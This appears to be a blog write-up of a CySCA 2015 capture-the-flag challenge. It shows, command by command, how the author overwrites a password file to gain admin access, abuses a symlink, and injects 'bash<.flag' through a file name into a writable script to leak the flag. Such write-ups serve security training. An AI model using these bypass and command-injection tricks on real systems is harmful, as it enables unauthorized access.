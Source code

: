 ```yaml
---
title: CySCA 2015 - Web Application Pentest 6 - Terminal Situation
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


It's no coincidence this challenge is called Terminal Situation, we have a 
terminal sitting right in front of us. 

{% highlight text %}
<server> connected
{% endhighlight %}

Lets type `help` to see if it will give us a prompt.

{% highlight text %}
> help
AVAILABLE COMMANDS:
help                  display this information
id                    show user id
ps                    list active processes
ip                    list network interfaces
rm                    delete file
ln <src> <dst>        create symlink (admins only)
ls                    list directory entries
  -s                  view file size information
  -h                  view hidden files
uname                 show system information
auth <password>       authenticate as administrator
log <outfile>         append next command output to file
reset                 reset to initial terminal state
{% endhighlight %}

We notice a command `auth` which takes a password to authenticate as an 
administrator. We also notice that using `ln` is a privileged command, 
which indicated we need to become an administrator.

Performing an "ls -h", showing hidden files, reveals

{% highlight text %}
> ls -h
.
..
.flag
.passwd
bin
{% endhighlight %}

The password for the authentication is going to be stored in `.passwd`, however
we have no way of reading files. We do, however, have a method of writing and
deleting, namely `log` and `rm`. 

- `rm .passwd`: Delete the passwd file so we can re-write it
- `log .passwd`: Log the next commands output into .passwd
- `ls` : This outputs `bin` into `.passwd`
- `auth bin`: Using our new password, `bin`, we log in.

{% highlight text %}
> rm .passwd
> log .passwd
[log] next command output will be saved to .passwd
> ls
bin
> auth bin
[auth] admin login successful!
{% endhighlight %}

Okay so now we can fiddle around with the ln command. Lets take a look at 
what's in the `bin` directory. 

{% highlight text %}
> ls -s -h bin
total 40
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 .
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:10 ..
-rwxr-xr-x 1 root     ecwiterm   54 Nov 19 05:42 bash
-rwxr-xr-x 1 ecwiterm ecwiterm    3 Nov 19 05:42 id.sh
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 ip
-rwxr-xr-x 1 root     ecwiterm   53 Nov 19 05:42 ln
-rwxr-xr-x 1 root     ecwiterm   58 Nov 19 05:42 ls
-rwxr-xr-x 1 root     ecwiterm   49 Nov 19 05:42 ps
-rwxr-xr-x 1 root     ecwiterm   55 Nov 19 05:42 rm
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 uname
{% endhighlight %}

The only file we have write access to is id.sh. Lets see if we can write 
arbitrary commands into it:

{% highlight text %}
> log bin/id.sh
log: invalid log file, can't use bin directory
{% endhighlight %}


I'm not surprised. What if we create a symbolic link to the script and try log
to it? 

{% highlight text %}
> ln bin/id.sh id.sh
> ls -s -h
total 20
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:14 .
drwxr-xr-x 3 root     ecwiterm 4096 Nov 19 05:42 ..
-rwxr-xr-x 1 root     ecwiterm   39 Nov 19 05:42 .flag
-rw-rw-r-- 1 ecwiterm ecwiterm    3 Nov 19 08:10 .passwd
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 bin
lrwxrwxrwx 1 ecwiterm ecwiterm    9 Nov 19 08:14 id.sh -> bin/id.sh
{% endhighlight %}

Perfect. Now lets set up the command we want to run when we invoke `id`. We can 
write arbitrary commands using ls <filename> provided the file exists, so we create
the command we want:

{% highlight bash %}
> log bash<.flag
[log] next command output will be saved to bash<.flag
> ls
bin
id.sh
> ls bash*
bash<.flag
{% endhighlight %}

Our command to write will be `bash<.flag`. We now need to write this into the
script. 

{% highlight text %}
> log id.sh
[log] next command output will be saved to id.sh
> ls bash*
bash<.flag
> id
[error] uid=1002(ecwiterm) gid=1002(ecwiterm) groups=1002(ecwiterm)
bash: line 1: $'FLAG{4b000000000000000000000000000000}\r': command not found
{% endhighlight %}

And thanks to bash's useful error messages, it prints out the flag for us.

